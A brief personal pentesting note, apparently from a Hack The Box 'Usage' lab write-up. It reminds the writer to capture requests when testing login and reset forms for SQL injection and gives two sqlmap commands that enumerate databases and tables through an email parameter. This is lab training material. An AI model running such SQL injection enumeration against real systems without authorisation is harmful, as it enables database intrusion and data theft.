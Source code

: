 **Habit Building**
Remember to capture a request when looking for SQLi in login, reset forms
Example: [[Usage]]
```bash
"Get-Database": sqlmap -r Documents/HTB/Usage/email_sql --batch --level 3 --dbs
"Get Tables": sqlmap -r Documents/HTB/Usage/email_sql -p email --batch --level 3 -D usage_blog --tables --threads=10 
```
